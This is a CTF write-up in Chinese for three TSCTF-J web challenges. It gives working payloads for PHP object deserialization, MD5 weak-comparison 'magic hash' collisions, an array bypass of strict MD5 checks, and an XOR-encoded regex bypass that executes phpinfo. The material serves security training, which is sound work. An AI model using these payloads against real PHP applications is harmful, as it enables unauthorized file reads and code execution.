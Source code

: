 # TSCTF-J

* ## Web方向

### 0x01 eaSy\_serialize

进入页面发现是源码

![](file:///C:/Users/86136/AppData/Local/Temp/msohtmlclip1/01/clip_image002.png)

代码审计得到需要序列化一个PHP类对象，第一个变量为hash类变量，第二个变量值为’noway’，第三个变量值为's1502113478a'（运用md5碰撞）

Exp：

![](file:///C:/Users/86136/AppData/Local/Temp/msohtmlclip1/01/clip_image004.png)

在localhost下运行得到序列化码

```
O%3A3%3A%22PHP%22%3A5%3A%7Bs%3A8%3A%22%00PHP%00PHP%22%3BO%3A4%3A%22bash%22%3A3%3A%7Bs%3A1%3A%22z%22%3Bs%3A8%3A%22flag.php%22%3Bs%3A1%3A%22x%22%3Bs%3A4%3A%22null%22%3Bs%3A1%3A%22y%22%3Bs%3A4%3A%22null%22%3B%7Ds%3A9%3A%22%00PHP%00java%22%3Bs%3A5%3A%22noway%22%3Bs%3A1%3A%22c%22%3Bs%3A12%3A%22s1502113478a%22%3Bs%3A6%3A%22python%22%3BN%3Bs%3A4%3A%22bash%22%3BN%3B%7D%3Cbr%3E
```



Payload:

```
?guess= O%3A3%3A%22PHP%22%3A5%3A%7Bs%3A8%3A%22%00PHP%00PHP%22%3BO%3A4%3A%22bash%22%3A3%3A%7Bs%3A1%3A%22z%22%3Bs%3A8%3A%22flag.php%22%3Bs%3A1%3A%22x%22%3Bs%3A4%3A%22null%22%3Bs%3A1%3A%22y%22%3Bs%3A4%3A%22null%22%3B%7Ds%3A9%3A%22%00PHP%00java%22%3Bs%3A5%3A%22noway%22%3Bs%3A1%3A%22c%22%3Bs%3A12%3A%22s1502113478a%22%3Bs%3A6%3A%22python%22%3BN%3Bs%3A4%3A%22bash%22%3BN%3B%7D%3Cbr%3E
```

获得flag

![](file:///C:/Users/86136/AppData/Local/Temp/msohtmlclip1/01/clip_image006.png)

### 

### 0x02 EasyF12

虽然题目写了只用F12就行，但是进去之后F12发现被坑了

![](file:///C:/Users/86136/AppData/Local/Temp/msohtmlclip1/01/clip_image002.jpg)

发现game1.html，点进去看看

![](file:///C:/Users/86136/AppData/Local/Temp/msohtmlclip1/01/clip_image004.jpg)

芜湖，发现右键被disabled了，果断删掉

然后上上下下左左右右成功进入下一关

![](file:///C:/Users/86136/AppData/Local/Temp/msohtmlclip1/01/clip_image006.jpg)

？？？让老子点9999下？爬

![](file:///C:/Users/86136/AppData/Local/Temp/msohtmlclip1/01/clip_image008.jpg)

点击“完成训练”抓包得到这个，发现有两个可以改的地方，q和liliang，更改liliang为9999发现没用，改一下q=9999，发现建议变成了

![](file:///C:/Users/86136/AppData/Local/Temp/msohtmlclip1/01/clip_image010.jpg)

找到fina1.php

发现屁都没有

F12看一下发现是白色隐藏起来了

![](file:///C:/Users/86136/AppData/Local/Temp/msohtmlclip1/01/clip_image012.jpg)

发现需要用get方法递交四个变量，同时要满足

```
($param1 != $param2)&&(md5($param1) == md5($param2))
```

和

```
($param3 != $param4)&&(md5($param3) === md5($param4))
```

然后懵逼了

注意到第一个md5比较是’==’，考点为php弱类型对比，采用md5碰撞，得到$param1和$param2值（我采用的是$param1=s878926199a和$param2=s155964671a），但后面的就不行了，因为’===’为php强类型对比，因而采用md5不能加密数组的漏洞

```
Payload：?param1=s878926199a&&param2=s155964671a&&param3[]=1&&param4[]=2
```

获得flag

![](file:///C:/Users/86136/AppData/Local/Temp/msohtmlclip1/01/clip_image014.jpg)



### 0x03 easyWEB

打开页面发现就是一个输入框，输入了几次都是error

查看源代码发现一个叫submit.js的文件，内部有一个叫做BubbleGVM的函数，初步推测与检测输入有关

进入submit.js查看源代码，发现了一段代码

![](file:///C:/Users/86136/AppData/Local/Temp/msohtmlclip1/01/clip_image002.png)

用python脚本翻译一下十六进制代码，得到

![](file:///C:/Users/86136/AppData/Local/Temp/msohtmlclip1/01/clip_image004.png)

发现一个目录叫/fllllaiig，进去看看

![](file:///C:/Users/86136/AppData/Local/Temp/msohtmlclip1/01/clip_image006.png)

整理代码思路：

通过get方法传入已经序列化的参数，当参数为常规可反序列化对象时进行反序列化，传入protected类型变量op, filename, content和passwd，其中passwd值需要经过验证，在传入pop参数后在析构函数中调用process函数进行反序列化以及验证passwd操作

发现两个点：

第一个点![](file:///C:/Users/86136/AppData/Local/Temp/msohtmlclip1/01/clip_image008.png)

加盐md5，已知盐值，而且提示passwd都是数字，则尝试用脚本跑出来

![](file:///C:/Users/86136/AppData/Local/Temp/msohtmlclip1/01/clip_image010.png)

之后在文件中搜索发现最后的密码为5201314

![](file:///C:/Users/86136/AppData/Local/Temp/msohtmlclip1/01/clip_image012.png)

第二个点：

![](file:///C:/Users/86136/AppData/Local/Temp/msohtmlclip1/01/clip_image014.png)

析构函数中op===’2’为强对比，而前面验证函数中op==’2’为弱对比，因而可以通过op=2来绕过强对比，避免op被置为‘1’从而跳入put分支

第三个点：

变量类型为protected，在之后构造payload时需要对payload进行手动修改

构造payload：

![](file:///C:/Users/86136/AppData/Local/Temp/msohtmlclip1/01/clip_image016.png)

远程file\_get\_contents\(file\)需要用绝对地址

![](file:///C:/Users/86136/AppData/Local/Temp/msohtmlclip1/01/clip_image018.png)

在构造protected变量的序列化过程中存在\00字符，表现为不可见字符，需要手动添加，位置为环绕\*字符左右各一个，同时s要大写表示后面允许使用\00的表达

最终payload: 

```
O:11:"FileHandler":4:{S:5:"\00*\00op";i:2;S:11:"\00*\00filename";S:32:"/var/www/html/fllllaiig/hint.php";S:10:"\00*\00content";S:3:"111";S:9:"\00*\00passwd";S:7:"5201314";}
```

发现result并无返回值，查看页面源代码发现hint：![](file:///C:/Users/86136/AppData/Local/Temp/msohtmlclip1/01/clip_image020.png)

进入到/bubblegvm5201314目录下查看

![](file:///C:/Users/86136/AppData/Local/Temp/msohtmlclip1/01/clip_image022.png)

发现是正则表达式检测，通过异或绕过

Payload：

```
?a=${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}();&%ff=phpinfo
```

跳转到phpinfo界面，在disable\_function处发现flag：

![](file:///C:/Users/86136/AppData/Local/Temp/msohtmlclip1/01/clip_image024.png)

